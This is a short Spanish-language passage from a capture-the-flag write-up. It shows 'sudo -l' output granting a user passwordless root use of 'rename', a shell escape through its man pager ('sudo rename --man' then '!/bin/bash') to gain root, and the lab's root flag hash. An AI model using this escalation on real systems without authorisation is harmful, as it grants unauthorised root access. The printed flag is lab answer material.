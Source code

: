 Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for tiago on remote:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tiago may run the following commands on remote:
    (root) NOPASSWD: /usr/bin/rename
```

Veremos que podemos ejecutar el binario `rename` como el usuario `root`, por lo que haremos lo siguiente:

Si leemos la ayuda con el `-h` veremos que de forma interna con el parametro `--man` se ejecute la ayuda de `man` de dicho binario, teniendo los privilegios elevados podremos invocar dentro una `shell` de esta forma.

```shell
sudo rename --man
!/bin/bash
```

Info:

```
root@remote:/home/tiago# whoami
root
```

Veremos que somos `root`, por lo que vamos a leer la `flag` de `root`.

> root.txt

```
5b002472cb520245906ed20804c6471a
```
